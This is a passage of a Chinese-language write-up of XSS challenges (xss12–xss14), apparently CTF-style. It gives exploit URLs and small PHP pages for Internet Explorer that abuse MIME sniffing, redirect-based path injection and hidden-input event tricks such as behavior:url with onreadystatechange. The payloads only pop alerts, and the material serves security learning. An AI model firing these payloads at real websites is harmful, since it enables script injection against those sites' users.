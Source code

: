IE11 exp

```
http://ns1.rootk.pw:8080/xss/wp/11.php?u=http://ec2-52-15-146-21.us-east-2.compute.amazonaws.com%252f<%252ftitle><script>alert(document.domain)<%252fscript><!--.baidu.com
```

#### [xss12.php](./xss12.php)

先来了解一下IE的奇怪MIME判断。https://blog.fox-it.com/2012/05/08/mime-sniffing-feature-or-vulnerability/

因为有些服务器指定的不是一个正确的Content-Type头，所以IE为了兼容这些文件类型，它会将文件的前256个字节与已知文件头进行比较，然后得到一个结果…也就是<html>作为开头的话，会被认为是text/html

所以可以构造一下

IE exp:
```
http://xianzhi.aliyun.com/xss12.php?url=http://ns1.rootk.pw:8080/xss/wp/12.php
```

12.php

```php
<?php
header("Content-Type: application/octet-stream");
?>
<html><script>alert(document.domain)</script></html>
```
ref: https://xianzhi.aliyun.com/forum/read/224.html

#### [xss13.php](./xss13.php)

REQUEST_URI请求的xss，在IE下，加一次跳转就不会进行编码

IE exp:http://ns1.rootk.pw:8080/xss/wp/13.php

13.php
```
<?php
header("Location: http://xianzhi.aliyun.com/xss13.php/<svg/onload=alert(document.domain)>");
```
ref: https://speakerdeck.com/masatokinugawa/xss-attacks-through-path


#### [xss14.php](./xss14.php)

很久经典的一个问题，模糊记得xss书上有讲这个问题，因为标签里面有hidden属性的存在，导致大部分事件没法直接触发

所以一般分为两点，输出点是在hidden属性之前还是之后(不能闭合掉input的情况下)

之前则可以覆盖type为其他的，`<input value="a" src=1 onerror=alert(1) type="image" type="hidden">`
之后的话，只能通过间接的方式来触发，比如大家熟知的' accesskey='x' onclick='alert(/1/)，然后按shift+alt+x触发xss，但是还可以这样操作，无交互的触发xss，相比起来已经是无限制了，'style='behavior:url(?)'onreadystatechange='alert(1)
参考文章：http://masatokinugawa.l0.cm/2016/04/hidden-input-xss.html

IE exp:

```
http://xianzhi.aliyun.com/xss14.php?token=%27style=%27behavior:url(?)%27onreadystatechange=%27alert(1)
```
